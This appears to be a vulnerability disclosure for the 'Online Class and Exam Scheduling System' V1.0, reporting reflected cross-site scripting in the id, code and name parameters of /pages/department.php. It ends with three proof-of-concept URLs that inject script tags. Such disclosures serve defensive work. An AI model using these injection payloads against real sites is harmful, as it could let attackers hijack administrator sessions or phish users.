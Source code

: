 # NAME OF AFFECTED PRODUCT(S)

Online Class and Exam Scheduling System

# VERSION(S)

V1.0

# submitter

lvzhouhang

# Vulnerable File

/pages/department.php

Prerequisite: You need to log in first

# Software Link

https://download.code-projects.org/details/93487762-3e23-48ab-a56f-af5e61441ee1

# Vulnerability Type

Cross Site Scripting

in /pages/department.php   `id` and  `code` and `name` Parameters have Cross Site Scripting(XSS)

A malicious attacker can use this vulnerability to obtain administrator login credentials or phishing websites

# POC

~~~
pages/department.php?id="><script>alert(1)</script><c"
~~~

~~~
pages/department.php?code="><script>alert(1)</script><c"
~~~

~~~
pages/department.php?name="><script>alert(1)</script><c"
